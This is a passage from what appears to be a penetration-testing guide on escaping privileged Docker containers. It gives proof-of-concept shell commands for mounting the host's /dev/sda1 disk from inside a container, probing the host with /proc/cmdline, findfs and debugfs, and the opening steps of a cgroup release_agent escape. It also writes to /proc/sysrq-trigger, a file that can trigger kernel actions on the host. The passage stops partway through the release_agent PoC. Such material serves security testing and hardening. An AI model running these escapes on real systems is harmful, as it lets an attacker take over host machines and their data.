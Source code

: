 Test the following bypasses in a container executing:

```bash
docker run --rm -it --privileged ubuntu bash
```

#### Mounting Disk - Poc1

Well configured docker containers won't allow command like **fdisk -l**. However on miss-configured docker command where the flag `--privileged` or `--device=/dev/sda1` with caps is specified, it is possible to get the privileges to see the host drive.

![.gitbook/assets/1664529934_8313.png](https://bestestredteam.com/content/images/2019/08/image-16.png)

So to take over the host machine, it is trivial:

```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```

And voilà ! You can now access the filesystem of the host because it is mounted in the `/mnt/hola` folder.

#### Mounting Disk - Poc2

Within the container, an attacker may attempt to gain further access to the underlying host OS via a writable hostPath volume created by the cluster. Below is some common things you can check within the container to see if you leverage this attacker vector:

```bash
#### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

#### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

#### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```

#### Privileged Escape Abusing release\_agent - PoC1

{% code title="Initial PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
## Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC
```